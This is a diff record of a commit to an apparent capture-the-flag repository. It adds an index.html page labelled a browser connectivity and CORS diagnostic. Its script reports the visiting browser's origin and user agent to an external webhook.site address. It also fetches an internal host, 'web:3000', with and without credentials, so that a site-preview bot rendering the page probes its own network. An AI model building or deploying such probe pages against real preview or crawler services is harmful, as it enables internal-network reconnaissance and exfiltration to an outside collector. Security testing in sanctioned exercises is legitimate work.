

Before and after one commit to dingcs049-art/sitepreview-ctf-test, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,14 +1,44 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1">
+  <title>SitePreview Reviewer Test v3</title>
+</head>
+<body>
+  <h1>SitePreview Reviewer Test v3</h1>
+  <p>Browser connectivity and CORS diagnostic</p>
+  <pre id="results">Starting tests...</pre>
+
+  <script>
     const webhook =
       "https://webhook.site/d0fb3065-275d-4046-a057-642fdef33d40";
 
+    const results = document.getElementById("results");
+
     function report(event, value) {
-  const params = new URLSearchParams({
-    event,
+      const data = {
+        event: event,
         value: String(value),
         time: new Date().toISOString()
+      };
+
+      const params = new URLSearchParams(data);
+      const url = webhook + "?" + params.toString();
+
+      const line = event + ": " + value;
+      console.log("[TEST]", line);
+      results.textContent += "\n" + line;
+
+      // Send the diagnostic to Webhook.site.
+      fetch(url, {
+        method: "GET",
+        mode: "no-cors",
+        credentials: "omit",
+        keepalive: true
+      }).catch(error => {
+        console.error("Webhook reporting failed:", error);
       });
-
-  new Image().src = webhook + "?" + params;
     }
 
     async function testCors(name, credentials) {
@@ -16,9 +46,11 @@
         const response = await fetch(
           "http://web:3000/robots.txt",
           {
+            method: "GET",
             mode: "cors",
-        credentials,
-        cache: "no-store"
+            credentials: credentials,
+            cache: "no-store",
+            signal: AbortSignal.timeout(8000)
           }
         );
 
@@ -28,7 +60,20 @@
       }
     }
 
+    async function main() {
       report("started", location.origin);
 
-testCors("cors-omit", "omit");
-testCors("cors-include", "include");
+      report("user-agent", navigator.userAgent);
+
+      await Promise.allSettled([
+        testCors("cors-omit", "omit"),
+        testCors("cors-include", "include")
+      ]);
+
+      report("tests-completed", "yes");
+    }
+
+    main();
+  </script>
+</body>
+</html>
```
Lines whose indentation alone changed are shown as unchanged.
